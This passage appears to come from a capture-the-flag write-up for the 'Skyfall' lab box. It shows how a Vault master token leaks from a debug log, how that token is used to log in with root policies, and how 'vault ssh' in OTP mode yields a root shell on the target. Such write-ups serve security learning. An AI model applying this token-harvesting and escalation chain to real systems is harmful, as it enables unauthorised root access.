 ```console
[>] Checking seal status
[+] Vault sealed: false
```

The debug option `-d` writes a `debug.log` file, but the file is written with `600` permissions and `root:root` ownership

```
askyy@skyfall:~$ ls -l
total 8
-rw------- 1 root root  590 Jul 18 14:57 debug.log
-rw-r----- 1 root askyy  33 Jul 17 19:53 user.txt
```

By right the `debug.log` should have a master token:

```console
root@skyfall:~# cat /home/askyy/debug.log
2024/07/18 15:27:35 Initializing logger...
2024/07/18 15:27:35 Reading: /etc/vault-unseal.yaml
2024/07/18 15:27:35 Security Risk!
2024/07/18 15:27:35 Master token found in config: hvs.I0ewVsmaKU1SwVZAKR3T0mmG
2024/07/18 15:27:35 Found Vault node: http://prd23-vault-internal.skyfall.htb
2024/07/18 15:27:35 Check interval: 5s
2024/07/18 15:27:35 Max checks: 5
2024/07/18 15:27:35 Establishing connection to Vault...
2024/07/18 15:27:35 Successfully connected to Vault: http://prd23-vault-internal.skyfall.htb
2024/07/18 15:27:35 Checking seal status
2024/07/18 15:27:35 Vault sealed: false
```

```console
root@kali:~# vault login
Token (will be hidden):
Success! You are now authenticated. The token information displayed below
is already stored in the token helper. You do NOT need to run "vault login"
again. Future Vault requests will automatically use this token.

Key                  Value
---                  -----
token                hvs.I0ewVsmaKU1SwVZAKR3T0mmG
token_accessor       bXBeXR3r92WGQ8XgEDx6pIFu
token_duration       ∞
token_renewable      false
token_policies       ["root"]
identity_policies    []
policies             ["root"]
root@kali:~# vault ssh -role admin_otp_key_role -mode otp -strict-host-key-checking=no root@10.10.11.254
Warning: Permanently added '10.10.11.254' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Wed Mar 27 13:20:05 2024 from 10.10.14.46
root@skyfall:~# ls -l
total 16
```